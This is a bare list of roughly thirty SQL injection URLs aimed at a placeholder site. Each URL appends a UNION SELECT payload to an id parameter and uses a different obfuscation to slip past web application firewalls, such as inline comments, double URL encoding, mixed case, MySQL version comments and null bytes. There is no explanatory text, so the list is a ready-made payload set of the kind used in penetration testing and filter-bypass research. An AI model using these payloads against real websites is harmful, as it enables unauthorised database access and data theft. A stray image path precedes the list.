 ```
    http://domain.com/index.php?id=1& n=19901' 0%a0union%a0select%09 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' %0Aunion%0Aselect%0A 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' uni<on all="" sel="">/*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' %252f%252a*/UNION%252f%252a /SELECT%252f%252a*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' /*!union*//*--*//*!all*//*--*//*!select*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A1% 2C2%2C 1,2,3,4,5,6,7,8,9,10,12,13,14-- -
    http://domain.com/index.php?id=1& n=19901' /*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' +UnIoN/*&a=*/SeLeCT/*&a=*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' union+sel%0bect 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' +#1q%0Aunion all#qa%0A#%0Aselect 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' %23xyz%0AUnIOn%23xyz%0ASeLecT+ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' %23xyz%0A%55nIOn%23xyz%0A%53eLecT+ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' union(select(1),2,3)-- -  
    http://domain.com/index.php?id=1& n=19901' uNioN (/*!/**/ SeleCT */ 11) 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' /**//*U*//*n*//*I*//*o*//*N*//*S*//*e*//*L*//*e*//*c*//*T*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' %0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' +union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A1% 2C2%2C 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' /*!f****U%0d%0aunion*/+/*!f****U%0d%0aSelEct*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' +UnIoN/*&a=*/SeLeCT/*&a=*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' +/*!UnIoN*/+/*!SeLeCt*/+ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' /*!u%6eion*/ /*!se%6cect*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' uni%20union%20/*!select*/%20 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' union%23aa%0Aselect 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' /**/union/*!50000select*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' /^****union.*$/ /^****select.*$/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' /*union*/union/*select*/select+ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' /*!50000UnION*//*!50000SeLeCt*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' %252f%252a*/union%252f%252a /select%252f%252a*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' AnD null UNiON SeLeCt 1,2,3,4,5,6,7,8,9,10,12,13,14;%00-- -  
    http://domain.com/index.php?id=1& n=19901' AnD null UNiON SeLeCt 1,2,3,4,5,6,7,8,9,10,12,13,14+--+-  
    http://domain.com/index.php?id=1& n=19901' And False Union Select 1,2,3,4,5,6,7,8,9,10,12,13,14+--+-  
```
